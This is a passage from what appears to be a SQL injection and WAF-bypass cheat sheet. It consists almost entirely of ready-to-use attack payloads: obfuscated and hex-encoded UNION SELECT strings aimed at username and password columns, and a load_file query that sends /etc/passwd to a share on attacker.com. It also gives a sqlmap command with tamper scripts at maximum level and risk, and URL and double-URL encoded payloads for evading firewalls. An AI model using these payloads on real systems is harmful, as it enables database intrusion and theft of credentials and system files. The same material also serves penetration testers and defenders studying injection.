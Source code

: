 #### SQLi with Web Application Firewalls
- **Using Obfuscated Payloads**:
  ```sql
  ' UNION SELECT CHAR(117,115,101,114,110,97,109,101), CHAR(112,97,115,115,119,111,114,100) -- 
  ```

#### Leveraging SQL Functions
- **Using SQL Functions for Data Exfiltration**:
  ```sql
  ' UNION SELECT version(), current_database() -- 
  ```

#### DNS Exfiltration
- **Using DNS Requests for Data Exfiltration**:
  ```sql
  '; SELECT load_file('/etc/passwd') INTO OUTFILE '\\\\attacker.com\\share' -- 
  ```

#### Leveraging JSON Functions
- **Extracting Data Using JSON Functions**:
  ```sql
  ' UNION SELECT json_extract(column_name, '$.key') FROM table_name -- 
  ```

### 8. Advanced Automation Techniques

#### SQLMap Customization
- **Using Custom Tamper Scripts**:
  ```sh
  sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=~/location/ofthescript/charencode.py --level=5 --risk=3
  ```
## WAF Bypass Techniques for SQL Injection

### 1. Using Encoding and Obfuscation

#### URL Encoding
- Encode parts of the payload to bypass basic keyword detection.
  ```sql
  %27%20UNION%20SELECT%20NULL,NULL,NULL--
  ```

#### Double URL Encoding
- Double encode the payload to evade detection mechanisms.
  ```sql
  %2527%2520UNION%2520SELECT%2520NULL,NULL,NULL--
  ```

#### Hex Encoding
- Use hexadecimal encoding for the payload.
  ```sql
  ' UNION SELECT 0x61646D696E, 0x70617373776F7264 --
  ```
